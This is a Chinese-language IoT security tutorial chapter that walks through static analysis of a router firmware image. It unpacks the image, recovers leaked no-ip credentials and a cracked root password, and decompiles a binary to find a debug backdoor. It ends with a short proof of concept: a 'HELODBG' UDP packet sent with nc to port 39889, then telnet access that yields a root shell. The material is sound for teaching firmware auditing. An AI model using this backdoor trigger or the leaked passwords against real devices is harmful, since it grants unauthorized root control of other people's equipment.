 # 静态分析 IoT 固件

得到固件后，若直接打开，会发现该固件被加了密，无法直接解压缩，这是厂商对该固件做了保护，防止大家逆向分析他的固件。
![1](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-%E5%88%86%E6%9E%90IoT%E5%9B%BA%E4%BB%B6/1.png)

通过frackzip工具可以破解该zip的密码，时间要挺久的，我直接告诉你吧，密码是beUT9Z。
![2](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-%E5%88%86%E6%9E%90IoT%E5%9B%BA%E4%BB%B6/2.png)

解压后发现文件夹中有多个.yaffs2后缀的文件，这些都是固件的文件。
![3](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-%E5%88%86%E6%9E%90IoT%E5%9B%BA%E4%BB%B6/3.png)

yaffs2里有几个看上去是recovery的镜像，核心的应该是2K-mdm-image-mdm9625.yaffs2 ，我们下面就来提取该文件，我首先用binwalk来提取它，但提取出来的文件乱七八糟，不知道什么原因，后来看网上推荐直接用yaffs的原生工具unyaffs提取，就可以了，文件系统清晰明了。
```
unyaffs 2K-mdm-image-mdm9625.yaffs2 yaffs2-root/
```
![4](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-%E5%88%86%E6%9E%90IoT%E5%9B%BA%E4%BB%B6/4.png)


接下来我们查找该路径下的所有.conf文件，.conf文件多是配置文件，有可能从中可以发现敏感的信息。
```
find . -name '*.conf'
```
![5](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-%E5%88%86%E6%9E%90IoT%E5%9B%BA%E4%BB%B6/5.png)

其中的inadyn-mt.conf文件引起了我们注意，这是no-ip应用的配置文件，no-ip就是一个相当于花生壳的东西，可以申请动态域名。我们从中可以发现泄露的no-ip的登陆账号及密码。
```
cat etc/inadyn-mt.conf
```
![6](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-%E5%88%86%E6%9E%90IoT%E5%9B%BA%E4%BB%B6/6.png)

除了上述泄露的no-ip账号密码，我们还从shadow文件中找到了root账号的密码，通过爆破可以得到root的密码为1234。
```
cat ~/yaffs2-root/etc/shadow
```
![7](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-%E5%88%86%E6%9E%90IoT%E5%9B%BA%E4%BB%B6/7.png)

其实并不止有.conf文件会泄露信息，还有很多其他后缀的敏感文件会泄露信息，我们接下来使用firmwalker工具来自动化遍历该固件系统中的所有可疑文件。
```
git clone https://github.com/craigz28/firmwalker.git
```
![8](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-%E5%88%86%E6%9E%90IoT%E5%9B%BA%E4%BB%B6/8.png)

命令如下，firmwalker会将结果保存到firmwalker.txt。
```
./firmwalker.sh ~/yaffs2-root/
```
![9](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-%E5%88%86%E6%9E%90IoT%E5%9B%BA%E4%BB%B6/9.png)

看了下该工具的源码，没啥亮点，就是遍历各种后缀的文件。
![10](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-%E5%88%86%E6%9E%90IoT%E5%9B%BA%E4%BB%B6/10.png)

后缀都在data文件夹中的各个配置文件中。
![11](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-%E5%88%86%E6%9E%90IoT%E5%9B%BA%E4%BB%B6/11.png)

分析完敏感的配置文件后，我们接下来分析存在风险的二进制程序。查看自启动的程序，一个start_appmgr脚本引起了我们注意，mgr一般就是主控程序的意思。
![12](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-%E5%88%86%E6%9E%90IoT%E5%9B%BA%E4%BB%B6/12.png)

该脚本会在开机的时候以服务的形式运行/bin.appmgr程序。
![13](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-%E5%88%86%E6%9E%90IoT%E5%9B%BA%E4%BB%B6/13.png)

通过IDA进行反编译，在main函数中发现了一个管理员当时为了方便调试留下的后门，只要连接该固件的39889端口并发送HELODBG的字符串，就可以进行远程执行命令。
![14](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-%E5%88%86%E6%9E%90IoT%E5%9B%BA%E4%BB%B6/14.png)

POC如下：

```
user@kali:~$ echo -ne "HELODBG" | nc -u 192.168.1.1 39889 
Hello 
^C 
user@kali:~$ telnet 192.168.1.1 
Trying 192.168.1.1... 
Connected to 192.168.1.1. Escape character is '^]'.   
OpenEmbedded Linux homerouter.cpe     
msm 20141210 homerouter.cpe   
/ # 
id uid=0(root) gid=0(root) 
/ # 
exit 
Connection closed by foreign host. 
user@kali:~$
```

除了以上这些，该固件还存在多个漏洞，详细的报告可以参考：
```
https://www.anquanke.com/post/id/84671
```
